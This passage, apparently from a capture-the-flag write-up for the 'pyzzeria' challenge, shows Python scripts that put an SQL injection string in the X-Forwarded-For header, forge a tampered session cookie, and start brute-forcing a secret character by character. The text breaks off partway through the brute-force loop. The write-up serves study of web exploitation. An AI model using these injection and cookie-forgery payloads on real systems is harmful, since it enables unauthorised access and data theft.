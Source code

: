 
```python
# !/usr/bin/env python
import requests

headers = {
	"X-Forwarded-For": "127.0.0.1 ' OR 1=1 -- "
}

data = {
	"type": "M",
	"leavening": 0x1234
}

req = requests.post("http://pyzzeria.chall.polictf.it/pyzzeria", headers=headers, data=data)
c = req.cookies.get("pyzza")

t,obj,hhash = c.decode("hex").split(":")
plain = obj.decode("base64")
enc = plain.encode("base64")

t = "\x10\x00\x00M"
code = "invalid test"

cookies = requests.cookies.RequestsCookieJar()
cookies.set("pyzza", ("%s:%s:%s"%(t,enc,hhash)).encode("hex"))
cookies.set("AWSALB", "BwDMMN42LQAVq+oEpFKAxk4grO5IuF/BnCbfVs6RUIsYPtSwZIVnj2ZasIdfhQOSND3cLn+o+yExUPSyYYbHLMzrFcUvydrBjwSkaJLJxrpjdtXMKCFNj5CsMouV")

resp = requests.post("http://pyzzeria.chall.polictf.it/oven",  data={"order_code": code}, headers=headers,  cookies=cookies)
print resp.text
```

Which returned a leaving time of `140188021826412`! Now we can use the leak from cooking a Margherita as Stuffed to extract the secret one character at a time. I started off testing just the last letter to see if it was the same as the dummy password, and it was! Summiting a `!` successfully returned the order, but trying `Y!` as the last two characters did not work, so brute forcing time.

```python
import requests
import re
import string
import time

secretLength = 15
secretOffset = 0x45
found = ""
start = secretOffset-secretLength+len(found)

for i in range(start, secretOffset):
	foundChar = False
	for ch in string.lowercase + string.uppercase + string.digits:
		code = ch + found
		print "trying " + code
		headers = {
			"X-Forwarded-For": "127.0.0.1 ' OR 1=1 -- "
		}

		data = {
			"type": "M",
			"leavening": str(140188021826412-i)
		}

		time.sleep(5)
```